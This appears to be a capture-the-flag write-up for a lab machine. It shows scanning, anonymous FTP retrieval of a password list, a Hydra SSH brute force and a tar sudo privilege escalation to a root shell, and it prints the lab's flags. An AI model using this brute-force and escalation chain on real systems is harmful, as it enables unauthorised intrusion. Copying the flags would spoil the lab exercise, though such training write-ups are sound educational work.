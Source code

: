 ## Scanning
### Nmap
```python
nmap -sC -sV -oN nmapInitial [ip]
```

```python
# Nmap 7.60 scan initiated Mon Oct 23 17:29:25 2023 as: nmap -sC -sV -oN nmapInitial target-ip
Nmap scan report for ip-10-10-76-21.eu-west-1.compute.internal (target-ip)
Host is up (0.00028s latency).
Not shown: 967 filtered ports, 30 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
|_-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.17.165
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 5
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (EdDSA)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 02:F5:A8:26:B0:43 (Unknown)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Oct 23 17:29:53 2023 -- 1 IP address (1 host up) scanned in 28.09 seconds
```

### Gobuster
```
gobuster dir -u http://[ip] -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

```python
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://target-ip
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2023/10/23 17:30:59 Starting gobuster
===============================================================
/images (Status: 301)
/server-status (Status: 403)
===============================================================
2023/10/23 17:31:25 Finished
===============================================================
```

### Netcat
#### Banner Grabbing
```
nc -vn [ip] 21
```

## Enumeration
### Port 80
- When we visit the webpage through our browser, we are greeted with the following:

![Port 80 Bounty Hacker](https://github.com/morganbritt19/CTF-Writeups/assets/60797871/b7d0b1be-c73e-4264-8a3b-f72818e8d1c2)


- After doing a quick Gobuster scan, we can see that there is a `/images` directory. However, after further enumeration, it doesn't seem to provide us with more information. 

### Port 21
- Anonymous FTP login is enabled. Once connected, we can see two `.txt` files that could be useful. Use the `get` command to pull down the `locks.txt` and `tasks.txt` files. 
```python
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
ftp> get locks.txt
local: locks.txt remote: locks.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
226 Transfer complete.
418 bytes received in 0.07 secs (5.7458 kB/s)
ftp> get task.txt
local: task.txt remote: task.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
226 Transfer complete.
68 bytes received in 0.07 secs (1.0093 kB/s)
ftp> 
```

- `locks.txt`
```
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```
- This looks like a potential password list that could come in handy for brute forcing later. 

- `task.txt`
```
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```
- Lin could be a potential username we could use to brute for the SSH or FTP service that is open on the machine. 

### Hydra
- We can use the following syntax to try and brute force SSH login with the password list and username we found:
```
hydra -l lin -P locks.txt ssh://target-ip
```

- We are returned the following output with a match for credentials that will allow us to log in under the Lin user:
```python
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2023-10-23 17:45:59
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://target-ip:22/
[22][ssh] host: target-ip   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 16 targets did not complete
Hydra (http://www.thc.org/thc-hydra) finished at 2023-10-23 17:46:02
```

## System Hacking
- Using the user/password combination we found with Hydra, we can log in via SSH. This will give us the user flag:
	- User.txt - THM{CR1M3_SyNd1C4T3}

## Privilege Escalation
- Now that we have logged into the Lin user, let's look at what she can do with `sudo` permissions. 
```bash
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

- We can see that the Lin user can run `/bin/tar` as root. We can look this up using GTFOBins. When we do, we can find the following syntax to spawn a root shell:
```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

- Now that we have root permissions, we can grab the `root.txt` flag on the `root` desktop. 
	- Root.txt - THM{80UN7Y_h4cK3r}

